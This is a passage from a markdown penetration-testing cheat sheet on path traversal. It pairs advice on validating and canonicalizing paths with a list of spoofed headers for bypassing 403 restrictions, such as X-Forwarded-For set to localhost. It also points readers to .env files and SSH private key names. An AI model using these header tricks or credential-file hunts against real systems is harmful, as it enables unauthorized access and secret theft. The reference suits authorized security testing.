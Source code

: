 ```sh
Validate the user input before processing it. Ideally, compare the user input with a whitelist of permitted values.
After validating the supplied input, append the input to the base directory and use a platform filesystem API to canonicalize the path. 
# Example of some simple Java code to validate the canonical path of a file based on user input:
File file = new File(BASE_DIRECTORY, userInput);
if (file.getCanonicalPath().startsWith(BASE_DIRECTORY)) {
    // process file
```
{% endcode %}

## 403 Bypasser

{% code overflow="wrap" fullWidth="true" %}
```sh
https://www.geeksforgeeks.org/403bypasser-bypass-403-restricted-directory/

########### Path Traversal Authz

# Adding Headers in request with value 127.0.0.1 or localhost can also help in bypassing restrictions.

X-Custom-IP-Authorization: 127.0.0.1
X-Forwarded-For: localhost
X-Forward-For: localhost
X-Remote-IP: localhost
X-Client-IP: localhost
X-Real-IP: localhost

X-Originating-IP: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
```
{% endcode %}



## Interesting Linux Files

{% hint style="info" %}
* Search for .env files and port knocking inside apps
*   Do not forget there are many SSH key formats:&#x20;

    ```
    id_ecdsa, id_ecdsa_sk, id_ed25519, id_ed25519_sk, id_dsa...
    ```
{% endhint %}
